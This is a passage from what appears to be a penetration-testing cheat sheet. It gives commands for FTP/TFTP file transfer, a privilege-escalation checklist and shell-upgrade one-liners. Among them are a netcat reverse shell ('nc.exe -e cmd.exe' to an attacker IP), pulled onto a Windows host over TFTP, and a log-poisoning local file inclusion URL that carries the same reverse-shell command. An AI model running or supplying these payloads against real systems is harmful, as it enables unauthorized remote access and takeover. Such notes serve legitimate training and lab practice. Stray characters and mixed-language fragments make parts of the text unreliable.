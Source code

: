 ```
# Install pyftpdlib
pip install pyftpdlib

# Run (-w flag allows anonymous write access)
python -m pyftpdlib -p 21 -w
```

### Set up TFTP

````
# In Kali
atftpd --daemon --port 69 /tftp

# In reverse Windows
tftp -i 10.11.1.111 GET nc.exe
nc.exe -e cmd.exe 10.11.1.111 4444

http://10.11.1.111/addguestbook.php?LANG=../../xampp/apache/logs/access.log%00&cmd=nc.exe%20-e%20cmd.exe%2010.11.0.105%204444
````

## Linux

Now we start the whole enumeration-process over gain.

- Kernel exploits
- Programs running as root
- Installed software
- Weak/reused/plaintext passwords
- Inside service
- Suid misconfiguration
- World writable scripts invoked by root
- Unmounted filesystems
- Look in /var/backups
- Look in /etc/fstab y en mount

Less likely

- Private ssh keys
- Bad path configuration
- Cronjobs

### Useful commands

```
# Spawning shell
python -c 'import pty; pty.spawn("/bin/bash")'
python -c 'import pty; pty.spawn("/bin/sh")'
V
Ctrl+Z
stty raw -echo
fg
reset
Ctrl+Z
stty size
stty -rows 48 -columns 120
fg

echo os.system('/bin/bash')
/bin/sh -i
perl -e 'exec "/bin/sh";'
perl: exec "/bin/sh";
ruby: exec "/bin/sh"
lua: os.execute('/bin/sh')
(From within vi)
```